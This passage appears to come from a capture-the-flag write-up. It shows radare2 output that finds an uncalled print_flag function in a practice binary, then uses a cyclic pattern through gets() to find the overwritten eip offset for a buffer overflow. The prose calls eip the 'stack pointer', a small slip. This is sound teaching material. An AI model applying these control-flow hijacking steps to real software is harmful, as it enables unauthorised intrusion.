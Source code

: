 
Hmm, no obvious calls to a `print_flag()` function or anything like that.
Thankfully, we can take a look at all the defined functions and see if there's
any functions defined but not called.

```
[0xf7fa2c70]> afl
0x08048390    3 35           sym._init
0x080483d0    1 6            sym.imp.gets
0x080483e0    1 6            sym.imp._IO_getc
0x080483f0    1 6            sym.imp.puts
0x08048400    1 6            sym.imp.__libc_start_main
0x08048410    1 6            sym.imp.setvbuf
0x08048420    1 6            sym.imp.fopen
0x08048430    1 6            sym.imp.putchar
0x08048440    1 6            sub.__gmon_start___252_440
0x08048450    1 33           entry0
0x08048480    1 4            sym.__x86.get_pc_thunk.bx
0x08048490    4 43           sym.deregister_tm_clones
0x080484c0    4 53           sym.register_tm_clones
0x08048500    3 30           sym.__do_global_dtors_aux
0x08048520    4 43   -> 40   entry1.init
0x0804854b    4 103          sym.print_flag
0x080485b2    1 68           sym.echo
0x080485f6    1 87           sym.main
0x08048650    4 93           sym.__libc_csu_init
0x080486b0    1 2            sym.__libc_csu_fini
0x080486b4    1 20           sym._fini
```

Ooh, a print_flag function. That sounds very useful. So if we can set the stack
pointer to the address of this function, we should be in business. Let's run
the program with our new sketchy input and see what the `eip` is set to when
the program crashes.

```
[0xf7f9dc70]> dc
I just love repeating what other people say!
I bet I can repeat anything you tell me!
 !"#$%&'()*+,-./0123456789:;<=>?@ABCDEFGHIJKLMNOPQRSTUVWXYZ[\]^_`abcdefghijklmnopqrstuvwxyz{|} !"#$%&'()*+,-./0123456789:;<=>?@ABCDEFGHIJKLMNOPQRSTUVWXYZ[\]^_`abcdefghijklmnopqrstuvwxyz{|} !"#$%&'()*+,-./0123456789:;<=>?@ABCDEFGHIJKLMNOPQRSTUVWXYZ[\]^_`abcdefghijklmnopqrstuvwxyz{|}
child stopped with signal 11
[+] SIGNAL 11 errno=0 addr=0x5a595857 code=1 ret=0
[0x5a595857]> drr
   eax 0x0000011b  eax
   ebx 0x00000000  edi
   ecx 0xf7f54dc7  (/lib/i386-linux-gnu/libc-2.27.so) ecx library R W 0xf558900a
   edx 0xf7f55890  (unk0) edx R W 0x0 -->  edi
   esi 0xf7f54000  (/lib/i386-linux-gnu/libc-2.27.so) esi library R W 0x1d4d6c
   edi 0x00000000  edi
   esp 0xff8f9ee0  esp stack R W 0x5e5d5c5b ([\]^_`abcdefghijklmnopqrstuvwxyz{|}) -->  ascii
   ebp 0x56555453  ebp ascii
   eip 0x5a595857  eip ascii
   xfs 0x00000000  edi
   xgs 0x00000063  ascii
   xcs 0x00000023  ascii
   xss 0x0000002b  ascii
eflags       1SIV  eflags
  oeax 0xffffffff  oeax
```
